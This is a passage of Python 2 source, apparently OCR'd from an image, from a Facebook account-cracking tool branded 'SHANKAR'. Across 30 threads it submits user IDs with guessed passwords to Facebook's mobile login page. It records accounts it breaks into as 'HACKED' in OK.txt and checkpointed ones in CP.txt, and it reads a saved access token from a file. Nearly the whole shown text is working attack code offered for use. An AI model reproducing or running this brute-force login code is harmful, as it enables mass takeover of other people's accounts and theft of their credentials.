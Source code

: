                                                                     print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    ok = open('OK.txt', 'a')
                                                                    ok.write(uid + '|' + ps14 + '\n')
                                                                    ok.close()
                                                                    oks.append(uid + ps14)
                                                                elif 'checkpoint' in sp:
                                                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    cp = open('CP.txt', 'a')
                                                                    cp.write(uid + '|' + ps14 + '\n')
                                                                    cp.close()
                                                                    cps.append(uid + ps14)
                                                                else:
                                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                        'email': uid,
                                                                        'pass': ps15,
                                                                        'login': 'submit' })
                                                                    sp = data.content
                                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        ok = open('OK.txt', 'a')
                                                                        ok.write(uid + '|' + ps15 + '\n')
                                                                        ok.close()
                                                                        oks.append(uid + ps15)
                                                                    elif 'checkpoint' in sp:
                                                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        cp = open('CP.txt', 'a')
                                                                        cp.write(uid + '|' + ps15 + '\n')
                                                                        cp.close()
                                                                        cps.append(uid + ps15)
        except:
            pass
        


    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()


def sing():
    global token
    os.system('clear')
    
    try:
        token = open('shankar_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found'
        time.sleep(1)
        login()

